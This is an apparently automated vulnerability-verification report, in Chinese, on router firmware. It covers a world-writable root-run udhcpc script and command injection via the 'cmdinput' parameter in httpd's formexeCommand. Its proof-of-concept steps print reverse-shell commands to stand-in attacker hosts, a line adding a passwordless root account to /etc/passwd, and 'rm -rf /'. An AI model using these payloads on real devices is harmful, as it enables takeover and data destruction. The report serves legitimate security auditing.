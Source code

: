 - **描述准确性：** `accurate`
- **是否为真实漏洞：** `True`
- **风险级别：** `High`
- **详细原因：** 警报准确描述了漏洞：文件权限为 777（证据：ls -l 显示 -rwxrwxrwx），允许任何用户修改；文件内容与代码片段一致（证据：cat 输出），包含使用 udhcpc 环境变量和执行需要 root 权限的命令（如 /sbin/ifconfig、/sbin/route、写入 /etc/resolv.conf）。攻击者模型是未经身份验证的本地用户（非 root），但触发需要 DHCP 租约更新事件。完整攻击链：1) 攻击者修改脚本（例如，添加反向 shell 或修改系统文件）；2) udhcpc 以 root 权限执行脚本（基于脚本内容和常见行为）；3) 恶意代码以 root 权限运行，实现权限提升。PoC 步骤：作为非 root 用户，编辑 /usr/local/udhcpc/sample.renew，添加命令如 'echo "root::0:0:::/bin/sh" >> /etc/passwd'（添加 root 用户）或 '/bin/nc -e /bin/sh attacker_ip 4444'（反向 shell），然后触发 DHCP 更新（例如，重启网络或等待租约更新）。漏洞高度可利用，风险高。

## 验证指标

- **验证时长：** 133.84 秒
- **Token 使用量：** 136540

---

## 原始信息

- **文件/目录路径：** `bin/httpd`
- **位置：** `httpd:0x0007b2b8 sym.formexeCommand`
- **描述：** 命令注入漏洞存在于 sym.formexeCommand 函数中，允许经过身份验证的攻击者执行任意系统命令。具体表现：函数通过 fcn.0002b884 获取 HTTP 请求中的 'cmdinput' 参数，使用 strcpy 复制到局部缓冲区（大小 256 字节），然后直接用于构造 doSystemCmd 命令（如 'echo %s > /tmp/cmdTmp.txt' 和 '%s > /tmp/cmdTmp.txt'）。由于缺少输入验证、过滤或转义，攻击者可以注入 shell 元字符（如 ;、|、&、`）来执行恶意命令。触发条件：攻击者发送恶意 HTTP 请求到 formexeCommand 端点，包含 crafted 'cmdinput' 参数。约束条件：攻击者需拥有有效登录凭据（非 root 用户），但 httpd 进程可能以 root 权限运行，从而提升权限。潜在攻击和利用方式：注入命令如 'rm -rf /' 删除文件或 'nc -e /bin/sh attacker.com 4444' 启动反向 shell，完全控制设备。相关代码逻辑：用户输入直接传播到 doSystemCmd，无边界检查或验证。
- **代码片段：**
  ```
  // 从 HTTP 请求获取用户输入
  uVar2 = fcn.0002b884(*(puVar5 + (0xdcec | 0xffff0000) + iVar1 + -0xc), iVar4 + *0x7b5a8, iVar4 + *0x7b5ac);
  *(puVar5 + -0xc) = uVar2;
  // 使用 strcpy 复制用户输入到缓冲区
  sym.imp.strcpy(puVar5 + iVar1 + -0x21c, *(puVar5 + -0xc));
  // 调用 doSystemCmd 执行命令，用户输入直接嵌入
  sym.imp.doSystemCmd(iVar4 + *0x7b5c0, puVar5 + iVar1 + -0x21c); // 例如: 'echo %s > /tmp/cmdTmp.txt'
  sym.imp.doSystemCmd(iVar4 + *0x7b5c4, puVar5 + iVar1 + -0x21c); // 例如: '%s > /tmp/cmdTmp.txt'
  ```
- **备注：** 漏洞已验证通过代码分析：用户输入从 HTTP 参数直接传播到 doSystemCmd，无中间验证。攻击链完整且可重现。建议检查其他 doSystemCmd 调用点（如 sym.formSetClientState）是否有类似问题。后续分析应关注输入验证缺失的组件交互，特别是通过 NVRAM 或 IPC 的数据流。

## 验证结论

- **描述准确性：** `accurate`
- **是否为真实漏洞：** `True`
- **风险级别：** `High`
- **详细原因：** 安全警报准确描述了命令注入漏洞。证据来自 Radare2 分析：sym.formexeCommand 函数在地址 0x0007b220 调用 fcn.0002b884 获取 'cmdinput' HTTP 参数，在 0x0007b234 使用 strcpy 复制到缓冲区，并在多个位置（如 0x0007b2b8、0x0007b304、0x0007b43c）直接嵌入 doSystemCmd 调用，无任何验证或转义。攻击者模型为经过身份验证的远程用户（非 root），但 httpd 可能以 root 权限运行，允许权限提升。输入可控（通过 HTTP 请求）、路径可达（函数通过 HTTP 端点暴露），且实际影响严重（任意命令执行）。可重现的 PoC：攻击者发送恶意 HTTP POST 请求到 formexeCommand 端点，包含 'cmdinput' 参数如 '; nc -e /bin/sh attacker.com 4444'，注入 shell 元字符执行反向 shell，完全控制设备。
